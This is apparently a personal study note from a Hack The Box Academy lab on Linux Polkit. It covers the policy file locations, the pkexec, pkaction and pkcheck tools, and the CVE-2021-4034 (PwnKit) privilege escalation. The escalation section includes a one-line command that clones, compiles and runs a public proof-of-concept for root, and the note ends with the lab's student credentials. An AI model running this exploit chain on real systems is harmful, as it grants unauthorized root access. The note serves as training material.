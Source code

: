 # Polkit

> [!info] What is Polkit?
> It is a Linux service that allows user software and system components to communicate with each other if the user software is allowed to communicate as well.
> Custom rules can be placed in /etc/polkit-1/localauthority/50-local.d with the file extension .pkla
> Local authority rules can be used to grant or revoke user and group permissions

## TOC
- [File Groups](file-groups)
- [pkexec pkaction pkcheck](pkexec-pkaction-pkcheck)
- [Privilege Escalation](privilege-escalation)

### File Groups

Polkit works with two file groups:
1 actions/policies located @ 
``` python
(/usr/share/polkit-1/actions)
```
2 rules located @
```python
/usr/share/polkit-1/rules.d
```



### pkexec pkaction pkcheck

`pkexec` - runs a program with the rights of another user or with root rights
`pkaction` - can be used to display actions
`pkcheck` - this can be used to check if a process is authorized for a specific action

Example
```
pkexec -u <user> <command>
pkexec -u root id

uid=0(root) gid=0(root) groups=0(root)
```

###  Privilege Escalation

pkexec memory corruption vulnerability via [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034) aka [Pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)

Exploit

```python
git clone https://github.com/arthepsy/CVE-2021-4034.git; cry0l1t3@nix02:~$ cd CVE-2021-4034; gcc cve-2021-4034-poc.c -o poc; ./poc; id
```

## Questions

Username
```python
htb-student
```

Password
```python
HTB_@cademy_stdnt!
```

IP
```python
```

SSH
```python
```
